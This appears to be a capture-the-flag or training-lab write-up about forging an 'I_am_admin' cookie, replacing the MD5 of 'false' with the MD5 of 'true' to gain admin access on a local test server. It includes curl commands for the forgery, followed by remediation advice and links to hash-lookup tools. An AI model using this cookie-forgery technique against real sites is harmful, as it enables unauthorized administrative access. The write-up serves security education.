

# Exploit

## Basic mechanism

This vulnerability exploits a fundamentally flawed authentication mechanism

## What can this do ?

1. Unauthorized administrative access: Anyone can become an admin
1. Privilege escalation: Regular users can elevate their permissions
1. Bypassing authentication: No actual login credentials required
1. Data exposure: Access to restricted administrative functions and data
1. System compromise: Potential to access, modify, or delete sensitive information

## What we did

We first inspect the home page with:
```bash
curl -I http://localhost:8080
```
We notice a cookie named admin (major red flag):
```bash
Set-Cookie: I_am_admin=68934a3e9455fa72420237eb05902327;
```

After searching for the hash algorithm we determine that ``68934a3e9455fa72420237eb05902327`` is ``md5sum`` of ``false``  
We only need to create a hash of ``true`` with `echo -n "true" | md5sum` and we obtain ``b326b5062b2f0e69046810717534cb09``.  
Now let's change the cookie value and refresh the page.



or we can do
```bash
curl --cookie "I_am_admin=b326b5062b2f0e69046810717534cb09" http://localhost:8080 | grep "Good"
```
# Patch

- Server-side session management: Don't store sensitive authorization data in cookies
- Proper authentication: Implement a real login system with username/password
- JWT tokens: If stateless authentication is needed, use properly signed JWTs
- Secure cookie attributes: Set Secure, HttpOnly, and SameSite flags
- Strong encryption: If encryption is used, employ strong algorithms with proper key management
- Session expiration: Implement timeouts for inactive sessions
- Security headers: Add headers like HSTS, X-Content-Type-Options, etc.
- Random session IDs: Use unpredictable session identifiers that don't encode meaningful data
Cookie signing: Use HMAC or similar to ensure cookie integrity

# Tools

- [Hash analyzer](https://www.tunnelsup.com/hash-analyzer/#google_vignette)
- [Hash lookup table](https://crackstation.net/)